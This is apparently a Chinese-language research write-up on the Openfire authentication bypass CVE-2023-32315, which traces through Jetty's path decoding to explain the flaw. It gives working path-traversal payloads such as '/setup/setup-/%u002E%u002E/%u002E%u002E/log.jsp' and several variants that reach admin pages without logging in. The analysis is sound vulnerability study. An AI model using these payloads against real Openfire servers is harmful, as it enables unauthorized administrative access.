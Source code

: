 
参考：
- https://github.com/vulhub/vulhub/blob/master/openfire/CVE-2023-32315/README.zh-cn.md

### 环境搭建

```bash
wget https://github.com/igniterealtime/Openfire/releases/download/v4.7.3/openfire_4_7_3.tar.gz
tar zxf openfire_4_7_3.tar.gz
cd bin
chmod +x ./openfire.sh
./openfire.sh start -debug
```
即可监听在5005端口进行调试。

payload:
```
/setup/setup-/../../log.jsp
```

![image](https://github.com/shadowsock5/Poc/assets/30398606/2e63de08-0853-49cb-b267-e050b57f7ce6)
说明到这里的时候，不能有`%2e`。
将`../../`进行unicode编码，得到：
```
/setup/setup-/\u002E\u002E/\u002E\u002E/log.jsp
```

![image](https://github.com/shadowsock5/Poc/assets/30398606/d3db00ec-f5c3-41d4-8648-ca43b14a4d83)

虽然能过认证，但是响应是这样的：
![image](https://github.com/shadowsock5/Poc/assets/30398606/ddd0cd28-6882-455e-bc6f-b5da33a34023)

直接抄答案，
```
/setup/setup-/%u002E%u002E/%u002E%u002E/log.jsp
```
绕过了。
![image](https://github.com/shadowsock5/Poc/assets/30398606/e7615e3e-f554-4c39-a058-46cc2c97ed4a)

调试看一下为什么？

注意这里的log.jsp并不是真的存在这个文件，而是在web.xml中有其映射的servlet。
```xml
    <servlet>
        <servlet-name>org.jivesoftware.openfire.admin.log_jsp</servlet-name>
        <servlet-class>org.jivesoftware.openfire.admin.log_jsp</servlet-class>
    </servlet>
...
    <servlet-mapping>
        <servlet-name>org.jivesoftware.openfire.admin.log_jsp</servlet-name>
        <url-pattern>/log.jsp</url-pattern>
    </servlet-mapping>
```

在这里下断点：
org.jivesoftware.openfire.admin.log_jsp#_jspService

![image](https://github.com/shadowsock5/Poc/assets/30398606/e7811e9d-0332-4242-94c9-ca1cb518afad)
断下来之后往前回溯。
![image](https://github.com/shadowsock5/Poc/assets/30398606/7ae5ced4-59e4-40f0-a618-46db5ac750fe)

openfire\lib\jetty-servlet-9.4.43.v20210629.jar!\org\eclipse\jetty\servlet\ServletHolder.class# handle


在这里
openfire\lib\jetty-http-9.4.43.v20210629.jar!\org\eclipse\jetty\http\HttpURI.class
看到了：
```java

    static {
        __ambiguousSegments.put(".", Boolean.FALSE);
        __ambiguousSegments.put("%2e", Boolean.TRUE);
        __ambiguousSegments.put("%u002e", Boolean.TRUE);
        __ambiguousSegments.put("..", Boolean.FALSE);
        __ambiguousSegments.put(".%2e", Boolean.TRUE);
        __ambiguousSegments.put(".%u002e", Boolean.TRUE);
        __ambiguousSegments.put("%2e.", Boolean.TRUE);
        __ambiguousSegments.put("%2e%2e", Boolean.TRUE);
        __ambiguousSegments.put("%2e%u002e", Boolean.TRUE);
        __ambiguousSegments.put("%u002e.", Boolean.TRUE);
        __ambiguousSegments.put("%u002e%2e", Boolean.TRUE);
        __ambiguousSegments.put("%u002e%u002e", Boolean.TRUE);
    }
```
所以从这里面看，只有不包含`%2e`的，能变成..的应该都可以，比如：
```
/setup/setup-/.%u002e/.%u002e/log.jsp
/setup/setup-/%u002e./%u002e./log.jsp
```

一些细节：
![image](https://github.com/shadowsock5/Poc/assets/30398606/f63dfd7a-6e23-4011-b2eb-3d1e56c534ef)

openfire\lib\jetty-util-9.4.43.v20210629.jar!\org\eclipse\jetty\util\URIUtil.class
![image](https://github.com/shadowsock5/Poc/assets/30398606/e291fb82-1dc0-473e-b059-466d4147709e)

openfire\lib\jetty-http-9.4.43.v20210629.jar!\org\eclipse\jetty\http\HttpURI.class
![image](https://github.com/shadowsock5/Poc/assets/30398606/d83c058a-3a45-4a6d-a2f1-7524af4508ca)
这里的
```java
String decodedNonCanonical = URIUtil.decodePath(this._path)
```
把
```
/setup/setup-/.%u002e/.%u002e/log.jsp
=>
/setup/setup-/../../log.jsp
```
然后
```java
this._decodedPath = URIUtil.canonicalPath(decodedNonCanonical)
```
把
```
/setup/setup-/../../log.jsp
=>
/log.jsp
```

这样在这里，
openfire\lib\jetty-server-9.4.43.v20210629.jar!\org\eclipse\jetty\server\HttpChannelOverHttp.class

![image](https://github.com/shadowsock5/Poc/assets/30398606/64f6a262-7743-4320-b199-fdfb98a811ec)

已经被转换成了`/log.jsp`。


## Ref
- https://mp.weixin.qq.com/s/cuULlP0F0Xf9Rhmkb-9H0g
- https://mp.weixin.qq.com/s/EzfB8CM4y4aNtKFJqSOM1w
- https://github.com/igniterealtime/Openfire/security/advisories/GHSA-gw42-f939-fhvm
